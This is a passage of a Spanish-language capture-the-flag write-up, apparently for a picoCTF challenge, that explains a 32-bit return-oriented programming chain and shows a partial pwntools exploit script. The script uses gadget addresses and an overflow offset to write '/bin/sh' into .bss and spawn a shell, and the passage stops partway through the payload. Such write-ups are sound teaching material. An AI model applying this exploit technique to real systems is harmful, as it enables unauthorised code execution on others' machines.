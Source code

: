 Este regex busca gadgets que mueven algo a algún sitio, con lo cual como tenemos el valor que queremos y la dirección donde la queremos podemos poner esa información en los registros correspondientes y mover `/bin/sh` a `.bss`. En mi caso he elegido este gadget:

```c
0x80590f2 : mov dword ptr [edx], eax ; ret
```

Esto lo que hace es mover lo que esté en `eax` a `edx`. Entonces tenemos que conseguir poner en `eax` `/bin/sh` y en `edx` la dirección que hemos pillado antes del `.bss`.

Podemos meter lo que queramos en variables con el método de antes de encontrar un gadget `pop` y el registro que queramos pero ahora surge un nuevo problema. Recordemos que cada registro, como estamos en un binario de 32 bits solo puede contener un máximo de 4 bytes y `/bin/sh` ocupa mas que eso ya que cada carácter ocupa 1 byte. Para esto podemos partir en 2 nuestra string y ejecutar 2 veces el gadget mov pero la segunda vez añadiéndole un + 4 para mandarlo 4 bytes por encima de la dirección de la primera iteración y hacer que no se pisen.

```python
PART1 = u32(b"/bin")
PART2 = u32(b"/sh\x00")
```

Con esto tendríamos los datos y el conocimiento necesario para montar el payload:

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./vuln_patched")
context.binary   = exe
context.terminal = ['kitty']

gdb_script = '''
b main
continue
'''

def conn():
    if args.LOCAL:
        p = process(exe.path)
        if args.GDB:
            gdb.attach(p, gdbscript=gdb_script)
    else:
        p = remote("saturn.picoctf.net", 55177)
    return p

# Datos
OFFSET        = 28                           # distancia hasta EIP
INT_0x80      = 0x0804a3c2                   # int 0x80
POP_EAX       = 0x080b073a                   # pop eax ; ret
POP_ECX       = 0x08049e29                   # pop ecx ; ret
POP_EDX_EBX   = 0x080583b9                   # pop edx ; pop ebx ; ret
MOV_EDX_EAX   = 0x080590f2                   # mov dword ptr [edx], eax ; ret
BSS_ADDR      = 0x080e62c0                   # sección .bss

# "/bin/sh" en 2 partes
PART1 = u32(b"/bin")
PART2 = u32(b"/sh\x00")

payload = flat({
    OFFSET: [
        # Primera Parte de "/bin/sh" en .bss
        POP_EDX_EBX,   BSS_ADDR,       0x41414141,    # pop edx ; pop ebx ; ret
        POP_EAX,       PART1,                          # pop eax ; ret
        MOV_EDX_EAX,                                    # mov dword ptr [edx], eax ; ret

```